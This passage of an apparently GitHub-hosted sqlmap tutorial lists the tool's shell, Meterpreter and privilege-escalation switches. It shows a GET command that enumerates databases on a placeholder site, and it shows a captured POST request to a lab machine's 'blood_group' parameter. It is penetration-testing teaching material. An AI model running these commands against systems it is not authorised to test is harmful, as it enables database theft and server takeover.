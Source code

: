 ******

## Operating System access commands

| Options | Description | 
| --- | --- |
| --os-shell | Prompt for an interactive operating system shell | 
| --os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| --os-cmd=OSCMD | Execute an operating system command |
| --priv-esc | Database process user privilege escalation |
| --os-smbrelay | One-click prompt for an OOB shell, Meterpreter or VNC |

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run ```sqlmap -hh``` to display the advanced help message.

Now that we've seen some of the options we can use with sqlmap, let’s jump into the examples using both GET and POST Method based requests.

***********

## Simple HTTP GET Based Test

```
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

Here we have used two flags: -u to state the vulnerable URL and ```--dbs``` to enumerate the database.


## Simple HTTP POST Based Test

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.



<p align="center">
<img src="https://github.com/4bo4yman/T00LS/assets/156849852/04aa0f2c-dbf4-4ca0-80c6-05df9fb49107 ">
</p>

You’ll notice in the request above, we have a POST parameter 'blood_group' which could a vulnerable parameter.

```
           
4bo@4yman$ cat req.txt
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.17.116
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.17.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.17.116/blood/nl-search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
Connection: close

blood_group=B%2B
```
